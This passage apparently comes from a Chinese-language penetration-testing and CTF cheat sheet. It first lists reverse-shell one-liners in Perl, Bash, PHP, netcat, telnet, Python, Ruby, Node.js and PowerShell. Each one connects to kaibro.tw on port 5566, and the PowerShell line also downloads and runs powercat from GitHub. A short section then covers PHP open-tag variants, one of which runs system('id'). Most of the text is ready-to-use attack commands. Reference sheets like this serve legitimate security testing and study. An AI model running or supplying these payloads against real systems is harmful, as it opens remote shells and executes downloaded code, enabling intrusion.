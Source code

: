 - 本機Listen Port
  - `ncat -vl 5566`

- Perl
  - `perl -e 'use Socket;$i="kaibro.tw";$p=5566;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- Bash
  - `bash -i >& /dev/tcp/kaibro.tw/5566 0>&1`
  - `bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'`
  - `0<&196;exec 196<>/dev/tcp/kaibro.tw/5566; sh <&196 >&196 2>&196`

- PHP
  - `php -r '$sock=fsockopen("kaibro.tw",5566);exec("/bin/sh -i <&3 >&3 2>&3");'`

- NC
  - `nc -e /bin/sh kaibro.tw 5566`

- Telnet
  - `mknod backpipe p && telnet kaibro.tw 5566 0<backpipe | /bin/bash 1>backpipe`

- Python
  - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("kaibro.tw",5566));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- Ruby
  - `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("kaibro.tw","5566");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- Node.js
  - `var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect(5566, "kaibro.tw", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});`
  - `require('child_process').exec("bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'");`

- Powershell
  - `powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c kaibro.tw -p 5566 -e cmd`

# PHP Tag

- `<? ?>`
  - short_open_tag 決定是否可使用短標記
  - 或是編譯php時 --enable-short-tags
- `<?=`
  - 等價 <? echo
  - 自`PHP 5.4.0`起，always work!
- `<% %>`、`<%=`
  - 自`PHP 7.0.0`起，被移除
  - 須將`asp_tags`設成On
- `<script language="php"`
  - 自`PHP 7.0.0`起，被移除
  - `<script language="php">system("id"); </script>`
